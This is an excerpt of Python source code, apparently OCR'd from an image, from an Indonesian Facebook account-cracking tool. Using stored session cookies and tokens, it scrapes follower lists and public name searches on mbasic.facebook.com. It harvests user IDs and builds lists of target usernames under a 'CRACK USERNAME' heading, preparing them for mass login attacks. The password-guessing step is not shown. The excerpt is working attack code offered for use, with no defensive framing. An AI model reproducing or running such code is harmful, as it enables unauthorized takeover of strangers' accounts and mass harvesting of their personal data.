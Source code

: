   
 def dump_followers(link, cookie): 
         try: 
                 url = ses.get(link, cookies={"cookie": cookie}).text 
                 data = re.findall('" \/>\<div\ class\=\"..\"\>\<a\ href\=\"\/(.*?)\"\><span\>(.*?)\<\/span\>', str(url)) 
                 for user in data: 
                         if "profile.php?" in user[0]: 
                                 id.append(re.findall("id=(.*?)&amp;eav", user[0])[0]+'|'+user[1]) 
                         else: 
                                 id.append(re.findall("(.*?)\?eav", user[0])[0]+'|'+user[1]) 
                         Console().print(f" [+] Sedang Mengumpulkan {str(len(id))} Id...", end='\r') 
                         time.sleep(000000.003) 
                 if "Lihat Selengkapnya" in url: 
                         dump_followers("https://mbasic.facebook.com"+parser(url, "html.parser").find("a", string="Lihat Selengkapnya").get("href"), cookie) 
         except:pass 
 #----------------------[ CRACK USERNAME ]----------------------# 
 def crack_nama(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cokies = open('.cok.txt','r').read() 
         except IOError: 
                 print(' [+] Cookies Kadaluarsa ') 
                 time.sleep(5) 
                 login() 
         nama = [] 
         custom = [" ranti"," rindu"," duda"," janda"," montok"," tepos"," caca"," cantik"," ganteng"," jancok"," batam"," papua"," crish"," erma"," yanti"] 
         custom2 = [" iqbal"," kami"," batam"," medan"," new"," old"," jian"," store"," tias"," rio"," lia"," farz"," marvel"," jakarta"," juven"," der"," rika"] 
         cetak(panel(f"    Crack Username Satu Nama Yang Ingin Di Crack Setara Dengan 3.000 Username",width=90,padding=(0,2),style=f"bold white")) 
         nam = console.input(f' [+] Masukan Nama : ').split(",") 
         for ser in nam: 
                 for belakang in custom: 
                         id = ser+belakang 
                         nama.append(id) 
                 for depan in custom2: 
                         id = depan+ser 
                         nama.append(id) 
         with tred(max_workers=5) as thread: 
                 for id in nama: 
                         cari_nama("https://mbasic.facebook.com/public/"+id,cokies) 
         print("\r") 
         setting() 
  
 def cari_nama(link,cokies): 
         r = parser(ses.get((str(link)),cookies={"cookie": cokies}).text, "html.parser") 
         for x in r.find_all('td'): 
                 data = re.findall('\<a\ href\=\"\/(.*?)\">\<div\ class\=\".*?\">\<div\ class\=\".*?\">(.*?)<\/div\>',str(x)) 
                 for uid,nama in data: 
                         if 'profile.php?' in uid: 
                                 uid = re.findall('id=(.*)',str(uid))[0] 
                         elif '<span' in nama: 
                                 nama = re.findall('(.*?)\<',str(nama))[0] 
                         bo = uid+'|'+nama 
                         if bo in id:pass 
                         else:id.append(bo) 
                         sys.stdout.write(f"\r [+] Mengumpulkan {len(id)} Idz ...");sys.stdout.flush() 
                 if "Lihat Hasil Selanjutnya" in x.text: 
                         cari_nama("https://mbasic.facebook.com"+x.get("href"),cokies) 
  